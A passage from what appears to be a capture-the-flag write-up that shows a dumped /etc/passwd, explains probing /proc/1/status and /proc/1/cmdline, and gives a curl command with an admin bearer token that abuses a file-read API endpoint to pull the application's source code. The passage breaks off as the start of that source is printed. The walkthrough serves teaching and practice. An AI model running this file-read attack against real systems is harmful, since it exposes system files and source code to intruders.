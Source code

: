 	sync:x:4:65534:sync:/bin:/bin/sync
	games:x:5:60:games:/usr/games:/usr/sbin/nologin
	man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
	lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
	mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
	news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
	uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
	proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
	list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
	irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
	_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
	nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
	appuser:x:1000:1000::/home/appuser:/bin/sh

Perfect. So, we can read files on file system. But probably we can list directories, that's odd. Now will be helpful if we find application sourcecode (probably is in python if it's server by uvicorn). So... Idea: let's get `/proc/1/status`. This get some statistics about process with PID 1. On Linux systems it's usually init system - first process which is run after boot. This will probably not help but on the other hand most of the challenges apps run in docker and in this case we can find something more interesting. And yes, if we look on Name field it says uvicorn. So now we try /proc/1/cmdline and we got arguments for uvicorn:

	"/app/venv/bin/python\u0000/app/venv/bin/uvicorn\u0000--reload\u0000--host\u00000.0.0.0\u0000--workers\u000010\u0000--port\u000080\u0000shipapi.main:app\u0000"

From this we can determine path to application (/app/shipapi/main.py) and cat it: 

	└─$ curl -s -H "Authorization: Bearer eyJhbGciOiJSUzM4NCIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk4MzYzMzg1LCJpYXQiOjE2OTc2NzIxODUsInN1YiI6IjEiLCJhZG1pbiI6dHJ1ZSwiZ3VpZCI6ImIwZDNkMzQ5LTE1YTMtNGZiNy1hMzdlLWJhZjY0NWY1YmFhMiJ9.nDpeQ-cJaPTb9VQboXeRJCjaUTh6QYoEv0egm4wJUzO7w7YjsBwAgEY2t_TZt4r78HhlN2bY0gxhsfXrXzMdBfJz4isoCC0vEeOqNu2kaBvyIw4brJsRcmy_-aOHB-zJ7nmw-plF7_FSPbena_Apl-saE9YGjHCeGDvObxDVcpahMO07pgF0YvBPLJLYMm-MVP-1GQ5d-KbR9V0emJoRWCjDvhv3CseFZvLabTDze3k6xarrv5Argh9MUJtuEHAjwki6YY6YzVsULhR_YQeyjse5qcf2n97cpsEulgyWfGYpzeDuV1eH3A3w1k__smYnaaVb05W5NQ1MFGxIE1NgnZGEq4vTZstuO4mgZ9yDpkwwRcowCRNWiKY_AsCnAahG7D-Qe0UBMur5yzR8AFTtf13H8mYKLn4Y4DvxOV9eeu2BdzAwGrqwCy9xNxOaTitaj7gVU7BM_M6qwr9x6Jh7vK5aR88Jbn6sBXeCsyXqTjA3pvCXgIlUI1l1BhoSv7Ezv-aRE_j3Bxw8d5vi_xfzZbRtfl1Kn1W67AwAZh2CSnHgCDR5M4MI1q1RSPXX5QOQSJpS052gxg69TnwW_6EoP2TAQqLdsqIYhejFbFbXxa_6EFrssFOWuGmwyrjf1SLNSQ6Ac8DPjyxFdHSJREMeobSZrAuVkcMi2FzrI1zgUGY" -XPOST -H "Content-type: application/json" -d '{"file": "/app/shipapi/main.py"}' http://universal-ship-api.cns-jv.tcc/api/v1/admin/file | jq .file | awk '{gsub(/\\n/,"\n")}1' 
	"import asyncio

	from fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends
	from fastapi_contrib.common.responses import UJSONResponse
	from fastapi import FastAPI, Depends, HTTPException, status
	from fastapi.security import HTTPBasic, HTTPBasicCredentials
	from fastapi.openapi.docs import get_swagger_ui_html
	from fastapi.openapi.utils import get_openapi

	from typing import Optional, Any
	from pathlib import Path
	from sqlalchemy.orm import Session
